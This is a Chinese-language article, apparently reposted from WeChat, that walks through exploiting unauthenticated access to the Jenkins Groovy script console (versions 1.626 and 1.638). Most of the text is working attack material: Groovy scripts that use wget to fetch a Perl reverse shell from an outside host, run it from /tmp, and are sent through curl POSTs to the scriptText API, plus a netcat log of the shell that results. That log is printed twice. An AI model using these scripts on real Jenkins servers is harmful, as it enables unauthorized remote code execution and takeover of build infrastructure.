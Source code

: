 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H545vVAq8rzJPtT6oAopog)

![](https://mmbiz.qpic.cn/mmbiz_jpg/aPmkR80bcV3SvApHycxcrBC24V3MkLtTg8Jaky4ZgPQvOEqcpiaq0DjibDXiaHezvyA7bNiaWCo1hefakxaGbkWg9g/640?wx_fmt=jpeg)

        Jenkins（连续集成服务器）默认安装允许未经身份验证访问 Jenkins 主服务器上的 API（默认行为）。允许未经身份验证访问 groovy 脚本控制台，允许攻击者执行 shell 命令和 / 或连接回反向 shell。

<table width="662"><tbody><tr><td><p>Jenkins</p></td><td><p>版本 1.626</p></td></tr><tr><td><p>Jenkins</p></td><td><p>版本 1.638</p></td></tr></tbody></table>

经测试的操作系统
--------

        努力测试所有受影响的操作系统，显示默认操作系统打包版本的漏洞利用（例如 jenkins shell）的严重性。

<table width="662"><thead><tr><th>操作系统</th><th>默认包展示</th></tr></thead><tbody><tr><td><p>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</p></td><td><p>shell 作为用户 jenkins</p></td></tr></tbody></table>

        制作了一些小的 groovy 脚本来通过 Jenkins API 执行我想要的 shell 命令（我记得有一些问题通过 groovy 一次运行多个命令），然后我使用 Curl 执行它们。

### groovy 脚本 wget shell

        脚本将 wget perl 反向 shell 定位到目标并将其复制到 /tmp/shell

```
def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()
   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
```

        默认情况下，Jenkins 需要 / tmp 设置执行挂载选项，因此您应该可以安全地将 shell 放置在 Jenkins 服务器上。

### groovy 脚本执行 shell 命令

```
def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
```

### 通过 scriptText Jenkins API 执行 Groovy 脚本

```
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
```

```
[root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami     jenkins
     apache-4.1$ id
     id     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
```

```
[root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami     jenkins
     apache-4.1$ id
     id     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
```